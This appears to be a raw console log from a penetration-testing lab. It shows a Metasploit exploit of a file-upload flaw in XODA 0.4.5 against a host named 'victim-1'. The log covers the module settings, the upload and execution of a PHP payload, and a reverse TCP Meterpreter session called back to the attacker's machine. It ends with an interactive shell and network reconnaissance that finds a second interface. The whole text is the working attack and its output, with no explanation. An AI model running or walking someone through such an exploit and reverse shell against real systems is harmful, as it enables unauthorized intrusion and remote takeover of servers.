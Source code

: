 ```
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.3.248.3      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   XODA 0.4.5


msf5 exploit(unix/webapp/xoda_file_upload) > exploit

[*] Started reverse TCP handler on 192.3.248.2:4444 
[*] Sending PHP payload (iMQSDAmzvsfzc.php)
[*] Executing PHP payload (iMQSDAmzvsfzc.php)
[*] Sending stage (38288 bytes) to 192.3.248.3
[*] Meterpreter session 1 opened (192.3.248.2:4444 -> 192.3.248.3:37598) at 2023-07-28 16:49:28 +0000
[!] Deleting iMQSDAmzvsfzc.php

meterpreter >
meterpreter > sysinfo
Computer    : victim-1
OS          : Linux victim-1 5.4.0-152-generic #169-Ubuntu SMP Tue Jun 6 22:23:09 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > shell
Process 794 created.
Channel 0 created.
/bin/bash -i
bash: cannot set terminal process group (426): Inappropriate ioctl for device
bash: no job control in this shell
www-data@victim-1:/app/files$ ifconfig
ifconfig
eth0      Link encap:Ethernet  HWaddr 02:42:c0:03:f8:03  
          inet addr:192.3.248.3  Bcast:192.3.248.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:10094 errors:0 dropped:0 overruns:0 frame:0
          TX packets:10054 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:830129 (830.1 KB)  TX bytes:550561 (550.5 KB)

eth1      Link encap:Ethernet  HWaddr 02:42:c0:cd:3e:02  
          inet addr:192.205.62.2  Bcast:192.205.62.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:21 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:1766 (1.7 KB)  TX bytes:0 (0.0 B)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
```